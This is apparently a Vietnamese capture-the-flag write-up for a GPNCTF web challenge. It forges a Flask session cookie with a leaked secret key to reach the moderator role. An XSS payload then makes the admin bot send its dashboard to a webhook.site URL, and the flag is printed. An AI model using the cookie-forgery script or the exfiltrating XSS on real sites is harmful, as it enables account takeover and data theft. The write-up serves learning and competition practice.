 ![image](https://github.com/user-attachments/assets/f1ade6e6-4721-44e0-85c0-3fdd8bc403fa)

# **ANALYZE**

Đến với Stage 2 , mang theo  `FLASK_APP_SECRET_KEY` mà ta nhận được từ STAGE_1

Ta sẽ đi đọc trong source code để tìm manh mối về `STAGE_2` và `FLASK_APP_SECRET_KEY`

Thông tin đầu tiên mà ta có được là : Flag được nằm trong 1 bài note chỉ có admin hoặc mod mới có thể xem được .

```
await page.type('textarea[name="content"]', `Here you got some juicy flag: ${FLAG_STAGE_2}`);
```

```
@app.route('/dashboard')
@login_required
def dashboard():
    if is_mod():
        return redirect(url_for('moderator'))

    user_notes = [(nid, notes[nid]['title'], notes[nid]['content']) for nid in notes if notes[nid]['owner'] == g.user]
```

Và tôi sẽ đưa những dữ liệu này cho gpt để nhờ nó gen ra cách dịch ngược lại mã hóa để tạo ra cookie giả mao.
```
@app.route('/development/cookie-verify', methods=['POST'])
@login_required
@moderator_required
@development_routes_required
def verify_cookie():
    """
    Development route to validat the signature of the cookie is valid.
    """
    data = request.json.get('cookie')
    try:
        data = pickle.loads(base64.b64decode(data))
    except Exception as e:
        return "Invalid data :/", 400

    value = data.get('value')
    signature = data.get('signature')

    if not value or not signature:
        return "Missing signature or value", 400

    secret_key = app.secret_key.encode()
    expected_signature = hashlib.sha256((value + secret_key.decode()).encode()).hexdigest()

    if expected_signature != signature:
        return "Invalid signature", 400

    return "Valid Cookie!", 200
```


Trong main.py, đoạn mã sau cho thấy Flask lưu session thông qua session['user']:
```
session['user'] = {
    'username': username,
    'role': 'admin' if hashlib.sha512(password.encode()).hexdigest() == ADMIN_PASSWORD_HASH else 'user'
}
```

→ Tức là sau khi đăng nhập, Flask sẽ lưu nội dung session dưới dạng:

```
{
  "user": {
    "username": "tên bạn nhập",
    "role": "user" hoặc "admin"
  }
}
```
Flask sẽ tự động serialize, sign và mã hóa thông tin này thành cookie tên là session.

Flask dùng thư viện itsdangerous kết hợp với secret key:

```
app.secret_key = os.environ.get("FLASK_APP_SECRET_KEY")
```

→ Mỗi session cookie sẽ được Flask ký bằng FLASK_APP_SECRET_KEY.


Và ta đã có đã có FLASK_APP_SECRET_KEY từ .env (Stage 1), ta hoàn toàn có thể tạo cookie có role "moderator" hoặc "admin".


Thông qua hành vi xử lý quyền:

```
def is_mod():
    return g.user.get('role') in ['admin', 'moderator']
```
  
→ Chỉ cần trong session có user.role = "moderator" là đủ để:

Vượt qua @moderator_required

Truy cập /report/<note_id>, /moderator


# **EXPLOIT**

Cuối cùng thì script để làm giả cookie sẽ là : 

```
from flask.sessions import SecureCookieSessionInterface
from flask import Flask

# B1: Setup Flask giả để dùng serializer giống thật
app = Flask(__name__)
app.secret_key = "9f310d75c84c1aba65fa87fec8980f7c43b55dd274b41e3512777981ca37ea1d606e626c24248a0d39957c2bb94c9493f410"

# B2: Lấy công cụ ký
class SimpleSecureCookie(SecureCookieSessionInterface):
    def get_signing_serializer(self, app):
        return super().get_signing_serializer(app)

serializer = SimpleSecureCookie().get_signing_serializer(app)

# B3: Tạo nội dung session giả
cookie = serializer.dumps({
    "user": {
        "username": "canheeu",
        "role": "moderator"
    }
})

print("Final signed cookie:", cookie)
```

Sau khi đổi cookie thì ta đã hoàn toàn leo thang lên được quyền mod 

![image](https://github.com/user-attachments/assets/6b6624e3-c57e-4cb2-a2f8-3b9c911d4ba8)


Và tôi sẽ bắt đầu tìm hiểu về tính năng report , khi tôi gửi 1 chuỗi bất kì thì nhận lại được là : 

![image](https://github.com/user-attachments/assets/e362ef99-3b2b-4738-9f83-3fbf3176be69)

Và cuối cùng , chúng ta sẽ chèn đoạn payload này vào phần report để dụ cho bot đọc và tiết lộ thông tin cho ta 
Vì chúng ta biết được bài viết chứa flag nằm ở dashboard của bot

```
<script>
fetch('/dashboard')
  .then(r => r.text())
  .then(t =>
    fetch('https://webhook.site/c47162bb-f1c9-4a44-88ce-1703bcdad082', {
      method: 'POST',
      mode: 'no-cors',
      body: btoa(t)
    })
  );
</script>
```
Sau khi gửi xong , thì ta nhận được gói tin bắn về webhook như bên dưới , ta đen đoạn base64 này lên cyberchef thì ta được 1 đoạn mã HTML chứa thông tin

ở dashboard và chứa flag.

và ta còn biết được cả username của admin_bot , có thể hữu ích cho các stage sau : 

```
   >I_am_the_admin_4a65b80fe0c5c3b407f6d3fedd563848fc1d8d0431e3a26af47ecf8ef83bbe5a
```

![image](https://github.com/user-attachments/assets/65dabc53-8c80-4e70-8b47-d258f5fc0104)

![image](https://github.com/user-attachments/assets/7fe99cbb-ae73-4cba-b7d0-5cf3d8479ce6)

# **FLAG**

```
GPNCTF{forge_d15_JU1CY_moD}
```

